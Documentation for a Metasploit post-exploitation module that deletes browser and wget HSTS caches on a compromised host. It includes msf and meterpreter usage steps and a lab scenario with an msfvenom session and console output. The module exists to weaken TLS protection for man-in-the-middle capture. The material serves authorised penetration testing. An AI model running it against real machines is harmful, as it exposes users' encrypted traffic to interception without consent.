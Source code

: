## Vulnerable Application

This module allows you to erase the [HTTP Strict-Transport-Security](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) cache of a target machine.
When combined with a sniffer or a man-in-the-middle tool, this module will assist with the capture/modification of TLS-encrypted traffic.

**WARNING:** This module _erases_ the HSTS cache, leaving the target in a vulnerable state.  All browser traffic from all users on the target will be subject
to man-in-the-middle attacks.  There is no undo built-into this module.  If you intend to revert, you must first backup the HSTS file before running the module.

Note: This module searches for all non-root users on the system.  It will not erase HSTS data for the root user.

The following platforms are supported:
* Windows
* Linux
* OS X

## Verification Steps

1. Obtain and background a session from the target machine.
2. From the `msf>` prompt, do ```use post/multi/manage/hsts_eraser```
3. Set the ```DISCLAIMER``` option to ```True``` (after reading the above **WARNING**)
4. Set the ```SESSION``` option
5. ```run```

Alternatively:

1. Obtain a session from the target machine.
2. From the `meterpreter>` prompt, do ```run post/multi/manage/hsts_eraser DISCLAIMER=True```

## Scenarios

Set up a Kali VM with some HSTS data:

```bash
root@kali-2017:~# adduser bob
root@kali-2017:~# su bob
bob@kali-2017:/root$ cd

bob@kali-2017:~$ wget -S https://outlook.live.com/owa/ 2>&1 | grep -i strict
  Strict-Transport-Security: max-age=31536000; includeSubDomains
  Strict-Transport-Security: max-age=31536000; includeSubDomains
bob@kali-2017:~$ cat .wget-hsts 
# HSTS 1.0 Known Hosts database for GNU Wget.
# Edit at your own risk.
# <hostname>	<port>	<incl. subdomains>	<created>	<max-age>
outlook.live.com	0	1	1519176414	31536000
```

Create an `msfvenom` payload, execute it, and then connect to it with `multi/exploit/handler`.  From the Meterpreter session on the victim:

```
[*] Meterpreter session 1 opened (127.0.0.1:38089 -> 127.0.0.1:44444) at 2018-02-20 19:19:02 -0600

meterpreter > run post/multi/manage/hsts_eraser DISCLAIMER=True

[*] Removing wget HSTS database for bob... 
[*] HSTS databases removed! Now enjoy your favorite sniffer! ;-)
```

Confirm that the file was deleted:

```bash
bob@kali-2017:~$ cat .wget-hsts 
cat: .wget-hsts: No such file or directory
```
